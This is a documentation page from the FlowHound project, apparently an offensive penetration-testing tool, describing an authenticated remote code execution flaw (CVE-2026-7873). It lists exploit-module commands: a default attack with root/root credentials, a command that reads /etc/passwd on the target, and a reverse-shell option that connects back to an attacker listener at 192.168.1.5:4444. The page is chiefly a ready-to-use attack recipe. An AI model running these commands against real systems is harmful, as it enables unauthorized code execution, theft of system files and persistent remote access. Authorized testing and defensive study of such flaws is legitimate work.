

repository: rmhowe425/FlowHound · page: cves/cve_2026_7873/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code and read sensitive files including credentials, enabling complete system compromise and lateral movement.

**Impacted Versions:** Versions 1.0.0 through 1.10.0


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-7873
```

![image](../images/cve/07c16267-41a2-4b29-a6d5-e72f102b1f3f.png)



## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-7873 --command "cat /etc/passwd"
```

![image](../images/cve/514604ac-d255-4a55-a170-6598ec3a1836.png)


## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://192.168.1.30:7860 --username root --password root --cve CVE-2026-7873 --reverse_shell 192.168.1.5:4444
```
